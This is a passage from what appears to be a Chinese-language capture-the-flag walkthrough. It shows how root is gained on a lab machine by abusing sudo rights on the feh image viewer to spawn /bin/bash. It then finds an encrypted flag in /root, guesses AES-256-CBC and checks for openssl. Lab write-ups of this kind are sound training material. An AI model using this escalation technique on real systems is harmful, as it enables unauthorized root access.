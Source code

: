 
### 尝试执行/bin/bash

```
sudo feh -A /bin/bash -u
whoami
```

![image-20250425145729488](assets/image-20250425145729488.png)

成功提权



### 进入/root

```
/bin/bash -i
cd /root
ls
```

![image-20250425145841854](assets/image-20250425145841854.png)



发现flag被加密





结合png中给出的提示，可能是aes-256-cbc



### 查看靶机中是否有openssl

```
which openssl
```

![image-20250425150011115](assets/image-20250425150011115.png)

